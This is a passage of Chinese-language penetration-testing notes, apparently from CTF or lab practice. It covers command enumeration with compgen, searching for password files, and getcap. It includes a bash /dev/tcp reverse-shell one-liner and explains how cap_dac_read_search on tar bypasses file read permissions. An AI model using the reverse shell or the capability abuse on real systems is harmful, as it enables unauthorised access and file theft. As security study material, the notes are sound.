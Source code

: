 6. 妥善使用`compgen -c`来获取当前用户的可用命令，配合`grep`进行筛选

7. 记得一些敏感文件的常用关键字，如密码，可能文件名中就有`pass`

8. 命令`getcap`的使用，附在最后吧

9. 反弹`shell`的时候，反弹就是对方主动来连接你

   `bash -i >& /dev/tcp/ip/port 0>&1`



`getcap`是一个用于查看文件的能力（capabilities）的命令。在 Linux 系统中，文件能力是一种细粒度的权限机制，它允许对程序的权限进行更灵活的控制，而不是仅仅依赖传统的用户 / 组 / 其他（ugo）权限位。

- `cap_dac_read_search`是一种文件能力。具体来说，`cap_dac_read_search`能力允许一个进程绕过文件读取、目录读取和可执行文件搜索的常规文件权限检查。
- `=ep`是一种设置权限的方式。`e`表示启用（effective），`p`表示许可（permitted）。这意味着为`tar`程序设置了`cap_dac_read_search`能力，并且这个能力在程序执行时是有效的和被许可的。这样，`tar`程序在执行某些操作时（如读取文件和搜索目录）可以绕过传统的基于用户 / 组 / 其他的访问控制（DAC - Discretionary Access Control）权限检查。







































